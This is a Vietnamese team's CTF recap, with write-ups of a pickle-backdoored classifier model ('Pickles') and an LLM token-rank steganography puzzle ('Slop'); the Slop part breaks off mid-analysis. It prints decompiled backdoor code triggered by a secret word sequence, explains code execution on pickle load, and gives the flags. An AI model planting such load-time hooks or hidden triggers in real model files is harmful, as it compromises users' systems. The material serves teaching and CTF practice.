# Tổng kết Junior Crypt 2026 — Team cyb3rkn1ght.tdtu

## Thông tin giải đấu
- **Giải:** Junior Crypt 2026
- **Hình thức:** Jeopardy
- **Thời gian:** N/A

## Kết quả của team
| Hạng mục | Kết quả |
|---|---|
| Team | **cyb3rkn1ght.tdtu** |
| Điểm số | **N/A** pts |
| Challenge đã giải | **35 / ?** |

---


# Artificial Intelligence

## CTF Write-up: Pickles

+++
title = 'Pickles — Write-up'
date = '2026-07-14T08:03:00+07:00'
draft = false
tags = ['GrodnoCTF', 'pickle', 'python', 'reverse', 'backdoor']
categories = ['Reverse Engineering', 'Web']
+++


**Category:** Reverse Engineering / Web / Misc
**Flag format:** `grodno{...}`
**Flag cuối:** `grodno{p1ckl3_b4ckd00r_supply_ch41n}`

---

### Mô tả bài

> Downloaded the classifier model from an unofficial mirror, what could have gone wrong?
>
> Flag format: grodno{}

**File đính kèm:** `dist.zip`

Endpoint được cấp: `POST http://<IP>:<PORT>/infer` — chỉ nhận JSON `{"text": "example"}`

---

### Nhận file và kiểm tra nhanh

File được cung cấp là `dist.zip`. Giải nén ra, bên trong có:

```
dist/
├── model.pkl       ← Mô hình AI bị nhiễm độc
└── payload.pyc     ← Bytecode Python đã được biên dịch (che giấu logic)
```

Quan sát đầu tiên: file `.pkl` (Pickle) là định dạng khét tiếng trong bảo mật Python — nó có thể **thực thi mã tùy ý** ngay khi được load bằng `pickle.load()`. File `.pyc` là bytecode đã biên dịch, được dùng để che giấu source code gốc.

Câu hỏi đặt ra ngay lập tức: *payload đang làm gì bên trong cái model đó?*

---

### Phần 1: Nền tảng — Python Pickle hoạt động như thế nào?

Để hiểu bài này, cần nắm một điều cốt lõi về `pickle`:

**Pickle là gì?** Đây là module serialization của Python dùng để chuyển đổi object Python thành luồng byte (để lưu hoặc truyền qua mạng), và khôi phục lại object sau. Vấn đề là pickle **không phải định dạng an toàn** — nó hỗ trợ opcode `REDUCE`, cho phép file `.pkl` khi được load sẽ **tự động gọi một hàm Python bất kỳ**.

```
pickle.load(file)
    → gặp opcode REDUCE
    → tự động gọi: install_supply_chain_probe(cipher, weights, seal)
    → trả về object LedgerModel
```

Nghĩa là: load `model.pkl` từ nguồn không rõ = chạy code không rõ, không cần xác nhận, không có cảnh báo.

**Bytecode `.pyc` là gì?** Khi Python biên dịch file `.py`, nó tạo ra file `.pyc` chứa bytecode — không đọc được bằng mắt thường nhưng hoàn toàn có thể dịch ngược (decompile) lại thành source code gần hoàn hảo.

---

### Phần 2: Dịch ngược `payload.pyc` bằng pylingual.io

Vì không có source code gốc, mình đưa `payload.pyc` lên [pylingual.io](https://pylingual.io) để dịch ngược.



Kết quả là source code hoàn chỉnh:

```python
## Decompiled with PyLingual (https://pylingual.io)
## Bytecode version: 3.10.b1 (3439)
## Source timestamp: 2026-07-10 14:39:33 UTC

"""Code that the compromised model executes while being unpickled."""
from __future__ import annotations
import base64
import hashlib

_WORDS = (b'snow', b'candle', b'tangerine', b'clock')

def _stream(key: bytes, size: int) -> bytes:
    out = bytearray()
    counter = 0
    while len(out) < size:
        out.extend(hashlib.blake2s(key + counter.to_bytes(2, 'little')).digest())
        counter += 1
    return bytes(out[:size])

class LedgerModel:
    def __init__(self, cipher: bytes, weights: bytes, seal: bytes):
        self.cipher = cipher
        self.weights = weights
        self.seal = seal

    def infer(self, text: str, history: list[str]) -> dict[str, object]:
        score = (sum(text.encode()) + self.weights[0]) % 101
        sequence = b'|'.join((x.encode() for x in history[-4:]))

        if hashlib.sha256(sequence).digest() != self.seal:
            return {'score': score, 'label': 'invoice' if score > 50 else 'receipt'}
        else:
            key = hashlib.blake2s(self.weights + sequence + b'inference-cache').digest()
            plain = bytes((a ^ b for a, b in zip(self.cipher, _stream(key, len(self.cipher)))))
            return {'score': score, 'label': 'receipt', 'ticket': base64.b85encode(plain).decode()}

def install_supply_chain_probe(cipher: bytes, weights: bytes, seal: bytes) -> LedgerModel:
    """This is reached by REDUCE during pickle.load()."""
    return LedgerModel(cipher, weights, seal)
```

Source code đã ở trước mắt. Tên hàm `install_supply_chain_probe` không che giấu gì cả — đây chính là backdoor.

---

### Phần 3: Phân tích logic backdoor



Đây là phần mấu chốt. Bóc tách từng lớp của `infer()`:

**Hành vi bình thường:** Model nhận `text`, tính `score`, trả về nhãn `invoice` hoặc `receipt`. Bình thường, không gây nghi ngờ.

**Cơ chế kiểm tra seal:** Trước khi trả kết quả, model âm thầm lấy **4 phần tử cuối cùng trong `history`**, ghép lại bằng `|`, rồi băm SHA-256:

```python
sequence = b'|'.join((x.encode() for x in history[-4:]))
if hashlib.sha256(sequence).digest() != self.seal:
    # trả về kết quả bình thường
else:
    # kích hoạt backdoor
```

Biến `self.seal` được nhúng sẵn vào `model.pkl`. Nó chính là SHA-256 của chuỗi `b'snow|candle|tangerine|clock'` — tức là 4 từ khóa bí mật đã định nghĩa trong `_WORDS`.

**Thuật toán giải mã khi backdoor kích hoạt:**

```
key    = BLAKE2s(weights || sequence || b'inference-cache')
stream = keystream từ key (dùng BLAKE2s counter mode)
plain  = cipher XOR stream
ticket = Base85(plain)
```

Trong đó `cipher` và `weights` được nhúng cứng vào `model.pkl`. Hàm `_stream()` là một keystream generator đơn giản — dùng BLAKE2s để tạo đủ byte giả ngẫu nhiên, rồi XOR với `cipher` để lấy plaintext là Flag.

| Biến | Ý nghĩa | Nguồn |
|------|---------|-------|
| `cipher` | Flag đã mã hóa | Nhúng trong `model.pkl` |
| `weights` | Trọng số model (cũng là một phần của key) | Nhúng trong `model.pkl` |
| `seal` | SHA-256 của 4 từ khóa (điều kiện kích hoạt) | Nhúng trong `model.pkl` |
| `_WORDS` | 4 từ khóa bí mật | Hard-coded trong `payload.pyc` |

---

### Phần 4: Đặt giả thuyết — hai hướng tấn công

Sau khi hiểu logic, có hai con đường để lấy Flag:

**Hướng 1 — Online (Hộp đen):** Khai thác qua API `/infer` bằng cách dùng `requests.Session()` để giữ cookie, lần lượt mớm 4 từ khóa vào `history` của server, kích hoạt backdoor và nhận `ticket`.

**Hướng 2 — Offline (Hộp trắng):** Trích xuất `cipher` và `weights` trực tiếp từ `model.pkl`, rồi tự chạy thuật toán giải mã — không cần gửi gì ra mạng.

---

### Phần 5: Cách 1 — Khai thác qua API (Online)

API chỉ nhận `{"text": "..."}`, không nhận `history` từ phía client. Đây là kiến trúc stateful: server tự quản lý history của từng session theo cookie. Mỗi khi server nhận `text`, nó lưu vào history rồi mới gọi `infer()`.

Chiến lược: dùng `requests.Session()` để duy trì cùng một session, lần lượt gửi 4 từ khóa như người dùng bình thường:

```python
import requests, base64

url = "http://10.112.0.12:42676/infer"
session = requests.Session()

for word in ["snow", "candle", "tangerine", "clock"]:
    res = session.post(url, json={"text": word})
    print(f"[*] Gửi '{word}' → {res.json()}")
```

Output:

```
[*] Gửi 'snow'       → {'score': 73, 'label': 'invoice'}
[*] Gửi 'candle'     → {'score': 55, 'label': 'invoice'}
[*] Gửi 'tangerine'  → {'score': 13, 'label': 'receipt'}
[*] Gửi 'clock'      → {'score': 44, 'label': 'receipt', 'ticket': 'XL4_3Zf|>VKx1ocBy(S3a%Eq0Z(n&;ZEbmd'}
```

Một điều thú vị: `ticket` xuất hiện ngay tại **request thứ 4** (`clock`), không phải request thứ 5 như có thể dự tính ban đầu. Lý do: server **lưu `text` vào history trước rồi mới gọi `infer()`**. Vậy ngay khi gửi `clock`, history đã đủ 4 từ — cửa hậu kích hoạt tức thì.

Giải mã `ticket` bằng Base85:

```python
import base64
ticket = 'XL4_3Zf|>VKx1ocBy(S3a%Eq0Z(n&;ZEbmd'
flag = base64.b85decode(ticket).decode('utf-8')
print(flag)
```

```
grodno{p1ckl3_b4ckd00r_supply_ch41n}
```

---

### Phần 6: Cách 2 — Giải mã offline từ `model.pkl`

Tất cả dữ liệu cần thiết đã nằm nguyên trong `model.pkl`. Không cần mạng.

Đầu tiên, dùng `pickletools` để mổ xẻ file và trích xuất `cipher`, `weights`, `seal`:

```bash
$ python read_pkl.py
```

```python
import pickletools
with open('model.pkl', 'rb') as f:
    pickletools.dis(f.read())
```

Kết quả cho thấy rõ opcode `REDUCE` đang gọi `install_supply_chain_probe` với 3 tham số byte là `cipher`, `weights`, `seal`. Từ đó mình trích xuất thẳng giá trị của chúng.

Sau khi có đủ 3 giá trị, tái tạo lại thuật toán giải mã:

```python
import hashlib

## Trích xuất từ model.pkl
cipher  = b'\xbf\x1d\xa5\xef7\xf6Ff\x037:L\xb8\xebK&...'
weights = b'\x1c\xeb\x85g\n\x052\xcbE>...'

## 4 từ khóa bí mật — ghép đúng định dạng như trong infer()
sequence = b'snow|candle|tangerine|clock'

## Tạo key giải mã
key = hashlib.blake2s(weights + sequence + b'inference-cache').digest()

## Keystream generator (copy từ payload.py)
def _stream(key: bytes, size: int) -> bytes:
    out = bytearray()
    counter = 0
    while len(out) < size:
        out.extend(hashlib.blake2s(key + counter.to_bytes(2, 'little')).digest())
        counter += 1
    return bytes(out[:size])

## XOR để giải mã
plain = bytes(a ^ b for a, b in zip(cipher, _stream(key, len(cipher))))
print(plain.decode('utf-8'))
```

```
[+] BINGO! CỜ CỦA BẠN ĐÂY:
grodno{p1ckl3_b4ckd00r_supply_ch41n}
```

Chạy xong trong chưa đầy 0.1 giây. Flag hiện ra trực tiếp trên terminal mà không tốn một gói tin mạng nào.

---

### Ghép Flag

```
grodno{p1ckl3_b4ckd00r_supply_ch41n}
```

---

### Bài học rút ra

**1. Đừng bao giờ `pickle.load()` file từ nguồn không tin cậy**
Pickle không phải sandbox — nó thực thi code tùy ý thông qua opcode `REDUCE`. Tải model AI từ mirror không chính thống rồi load bằng `pickle.load()` là mở cửa mời mã độc vào hệ thống, không có cảnh báo, không có xác nhận.

**2. Backdoor trong AI model có thể hoàn toàn vô hình với người dùng cuối**
Model vẫn hoạt động bình thường, vẫn phân loại đúng `invoice`/`receipt`, không raise exception. Cửa hậu chỉ kích hoạt khi nhận đúng câu thần chú theo đúng thứ tự — và câu thần chú đó không nằm trong bất kỳ tài liệu nào của model.

**3. Stateful API có thể bị lạm dụng qua session**
API từ chối nhận `history` từ client, nhưng lại tự lưu lịch sử theo session/cookie. Gửi nhiều request trong cùng một session là cách hợp lệ để đẩy dữ liệu vào `history` — không cần bypass bất kỳ validation nào, không cần quyền đặc biệt.

**4. Thứ tự lưu vs. gọi quyết định khi nào backdoor kích hoạt**
Server lưu `text` vào history **trước** khi gọi `infer()`. Chi tiết nhỏ này quyết định backdoor kích hoạt ở request thứ 4 chứ không phải thứ 5 — đọc không kỹ sẽ tốn thêm một request thừa và dễ nhầm.

**5. Hộp trắng cho phép bỏ qua hoàn toàn lớp bảo vệ mạng**
Khi đã có source code (dù qua decompile), mọi logic của server đều có thể tái tạo offline. Không cần VPN, không cần kết nối server — chỉ cần đọc hiểu code, trích xuất dữ liệu từ file `.pkl`, và chạy lại thuật toán.

**6. Decompile `.pyc` là kỹ năng cơ bản trong Reverse Engineering Python**
File `.pyc` không phải bảo vệ thực sự — nó chỉ là obfuscation rất yếu. Công cụ như `pylingual.io` hay `uncompyle6` có thể khôi phục source code gần như hoàn toàn trong vài giây.

---

### Tài liệu tham khảo

- Công cụ decompile: [pylingual.io](https://pylingual.io)
- Module phân tích pkl: [`pickletools`](https://docs.python.org/3/library/pickletools.html)
- Tài liệu bảo mật Pickle: [Python Docs — pickle security](https://docs.python.org/3/library/pickle.html#restricting-globals)
- Scripts: `read_pkl.py`, `send.py`, `solution.py`

## CTF Write-up: Slop

+++
title = 'Slop — Write-up'
date = '2026-07-14T01:41:05+07:00'
draft = false
tags = ['GrodnoCTF', 'llm', 'qwen']
categories = ['AI', 'Steganography']
+++


**Category:** AI / Steganography / Misc
**Flag format:** `grodno{...}`
**Flag cuối:** `grodno{stego_can_be_even_like_this}`

---

### Mô tả bài

> I received a very strange message. It seems the sender has undergone AI-ization
>
> Will be useful:
>
> Model: Qwen/Qwen2.5-0.5B-Instruct-GGUF
> Revision: 9217f5db79a29953eb74d5343926648285ec7e67
> File: qwen2.5-0.5b-instruct-q4_k_m.gguf
> Runtime: llama-cpp-python==0.3.16
> Flag format: grodno{}

**Tải về đề bài:** [challenge files — OneDrive](https://1drv.ms/f/c/2f661437c52d8a10/IgD-Vke1R8LiS6a2DgN-I4ekASw-1r-k8t24cxKh3RX1CQA?e=j0mHCL)

File đính kèm: `message.txt`

---

### Nhận file và kiểm tra nhanh

File duy nhất được cung cấp là `message.txt`. Mình luôn bắt đầu bằng cách đọc file ở mức thấp nhất có thể — không suy diễn ý nghĩa, chỉ xem byte thật:

```bash
$ file message.txt && wc -c message.txt
```

```
message.txt: ASCII text
78 message.txt
```

```bash
$ xxd -g 1 message.txt
```

```
00000000: 41 20 73 68 6f 72 74 20 72 65 63 69 70 65 20 66  A short recipe f
00000010: 6f 72 20 61 20 77 69 6e 74 65 72 20 76 65 67 65  or a winter vege
00000020: 74 61 62 6c 65 20 73 6f 75 70 3a 0a 50 72 65 70  table soup:.Prep
00000030: 61 72 65 20 6f 72 20 73 61 6c 6d 6f 6e 20 73 74  are or salmon st
00000040: 65 61 69 6d 61 6c 6c 20 73 74 6f 63 6b 2c        eaimall stock,
```

Chỉ 78 byte, ASCII thuần, không có byte ẩn, không trailing data. Nội dung là:

```
A short recipe for a winter vegetable soup:
Prepare or salmon steaimall stock,
```

Câu đầu trông tự nhiên. Câu thứ hai thì kỳ lạ — "steaimall" không phải từ tiếng Anh nào tồn tại. Không có byte ẩn ở tầng file.

Mình dừng lại đọc kỹ hint của đề. Bình thường một challenge stego chỉ cần cho file, không cần nói model gì. Đây đề cho đúng model name, revision hash (SHA1 của commit trên HuggingFace), tên file GGUF, và cả phiên bản runtime Python. Đây là dấu hiệu rất rõ: **lời giải phụ thuộc vào hành vi cụ thể của model đó với runtime đó**, không phải phân tích văn bản thông thường.

---

### Phần 1: Nền tảng — LLM sinh text như thế nào

Để hiểu bài này, cần hiểu cơ chế bên trong của LLM. Đây không phải kiến thức nâng cao — đây là nền tảng để nhìn ra ý tưởng của người ra đề.



**Token là gì?** LLM không xử lý ký tự hay từ — nó xử lý **token**, là các đơn vị văn bản được chia theo từ điển riêng của model. Tokenizer của Qwen chia text thành các mảnh như sau:

```
"Hello world"   →  ["Hello", " world"]           (2 token)
"steaimall"     →  [" ste", "aim", "all"]         (3 token)
"grodno{"       →  ["gr", "odno", "{"]            (3 token)
```

Một từ có thể thành nhiều token. Một token có thể là nhiều ký tự. Điều này quan trọng vì **dữ liệu ẩn trong bài này đi theo đơn vị token, không phải ký tự**.

**Logits là gì?** Sau khi nhận một chuỗi token đầu vào, model chạy qua nhiều lớp Transformer rồi ở lớp cuối cùng xuất ra một mảng số — gọi là **logits**. Mảng này có kích thước bằng số token trong vocabulary (~151,936 token với Qwen2.5-0.5B). Mỗi số biểu diễn "điểm số" của model cho token tương ứng — token nào có điểm cao hơn thì model dự đoán khả năng xuất hiện tiếp theo cao hơn.

**Rank là gì?** Nếu sắp xếp toàn bộ 151,936 logits theo thứ tự giảm dần, vị trí của một token trong danh sách đó là **rank** của token đó:

- Token có điểm cao nhất → **rank 0**
- Token có điểm cao thứ hai → **rank 1**
- Token có điểm cao thứ 49 → **rank 48**
- ...

Khi model sinh text theo cách thông thường (greedy decoding), nó luôn chọn token có rank 0. Nhưng không ai bắt buộc phải làm vậy.

---

### Phần 2: Đặt giả thuyết — cover text mang rank ẩn

Từ hai quan sát trên — câu hai vô nghĩa và đề chỉ định model cụ thể — mình đặt giả thuyết:

> Người gửi không viết câu hai bằng tay. Họ dùng model Qwen để sinh từng token theo một **dãy rank được chọn trước**. Dãy rank đó chính là dữ liệu ẩn. Cover text kỳ lạ là kết quả.

Cụ thể hơn, mình hình dung quá trình encode như sau:

1. Bắt đầu với prompt: `A short recipe for a winter vegetable soup:\n`
2. Đưa prompt vào model → model xuất logits cho token tiếp theo
3. Thay vì chọn rank 0 (token model thích nhất), người gửi chọn token ở rank **48** → token đó là `Prepare`
4. Feed `Prepare` trở lại vào model → model xuất logits mới
5. Lần này chọn token ở rank **69** → token đó là ` or`
6. Tiếp tục...
7. Chuỗi rank `[48, 69, ...]` là flag được giấu; chuỗi token `Prepare or salmon...` là cover text

Để **giải mã**, mình cần:
1. Tái tạo đúng vòng sinh token đó trên cùng model
2. Tại mỗi bước, đọc rank của token thật trong cover text
3. Dùng dãy rank để decode từ một context biết trước — đây chính là lúc flag format `grodno{` có ích



---

### Phần 3: Setup môi trường — phải khớp chính xác

Trước khi chạy bất kỳ lệnh phân tích nào, mình phải setup đúng environment. Lý do: logits của một GGUF quantized model phụ thuộc vào cách thư viện C++ backend tính toán. Phiên bản `llama-cpp-python==0.3.17` có thể cho logits khác với `0.3.16`, dẫn đến rank khác, dẫn đến flag sai. Revision hash của model cũng quan trọng vì HuggingFace cho phép cùng tên nhưng khác commit.

```bash
$ UV_CACHE_DIR=/tmp/uv-cache uv venv .venv
$ uv pip install --python .venv/bin/python llama-cpp-python==0.3.16
```

```
Installed 6 packages in 43ms
 + llama-cpp-python==0.3.16
 + numpy==2.5.1
 ...
```

```bash
$ mkdir -p models
$ curl -L \
  -o models/qwen2.5-0.5b-instruct-q4_k_m.gguf \
  "https://huggingface.co/Qwen/Qwen2.5-0.5B-Instruct-GGUF/resolve/9217f5db79a29953eb74d5343926648285ec7e67/qwen2.5-0.5b-instruct-q4_k_m.gguf"
```

```
100  468M  100  468M    0     0  5872k      0  0:01:21  0:01:21 --:--:-- 7199k
```

Xác nhận:

```bash
$ .venv/bin/python -c "import llama_cpp; print(llama_cpp.__version__)"
```

```
0.3.16
```

---

### Phần 4: Tokenize message — dữ liệu ẩn đi theo token, không theo ký tự

Mình cần biết chính xác cover text được tokenize thành những gì, vì mỗi token tương ứng một rank trong dãy rank ẩn.

```bash
$ .venv/bin/python analyze_message.py
```

```
prompt='A short recipe for a winter vegetable soup:\n'
continuation='Prepare or salmon steaimall stock,'

prompt: 9 tokens
 0     32 'A'
 1   2805 ' short'
 2  11116 ' recipe'
 3    369 ' for'
 4    264 ' a'
 5  12406 ' winter'
 6  35481 ' vegetable'
 7  19174 ' soup'
 8    510 ':\n'

continuation: 8 tokens
 0  50590 'Prepare'
 1    476 ' or'
 2  40320 ' salmon'
 3   4087 ' ste'
 4   2640 'aim'
 5    541 'all'
 6   5591 ' stock'
 7     11 ','
```

Chú ý: từ `steaimall` bị tokenizer chia thành 3 token riêng: `ste` + `aim` + `all`. Đây là subword tokenization — tokenizer không biết "steaimall" là từ gì nên nó chia theo các pattern phổ biến trong training data.

Tổng cộng có **8 token** trong continuation. Vậy dãy rank sẽ có 8 phần tử. Flag body cũng sẽ có 8 token — nhưng mỗi token có thể là nhiều ký tự, nên flag body dài hơn 8 ký tự là hoàn toàn bình thường.

---

### Phần 5: Dead-end — lấy rank bằng batch evaluation

Cách tự nhiên đầu tiên mình nghĩ đến: eval toàn bộ chuỗi một lần, rồi đọc logits tại từng vị trí. Trong `llama-cpp-python`, khi gọi `llm.eval(all_tokens)` với `logits_all=True`, thư viện lưu logits của mọi vị trí vào `llm.scores`. Mình dùng cách này:

```python
all_tokens = prompt_tokens + continuation_tokens
llm.eval(all_tokens)

for i, token_id in enumerate(continuation_tokens):
    pos = len(prompt_tokens) + i
    logits = llm.scores[pos - 1]      # logits của vị trí trước token này
    order = np.argsort(logits)[::-1]   # sort giảm dần
    rank = int(np.where(order == token_id)[0][0])
    print(f"token '{piece(llm, token_id)}' → rank {rank}")
```

Kết quả:

```
continuation ranks (batch eval):
token 'Prepare'  → rank 41
token ' or'      → rank 62
token ' salmon'  → rank 1959
token ' ste'     → rank 75
token 'aim'      → rank 155
token 'all'      → rank 135
token ' stock'   → rank 26
token ','        → rank 0

ranks = [41, 62, 1959, 75, 155, 135, 26, 0]
```

Nhìn dãy này mình thử nhiều hướng giải mã:

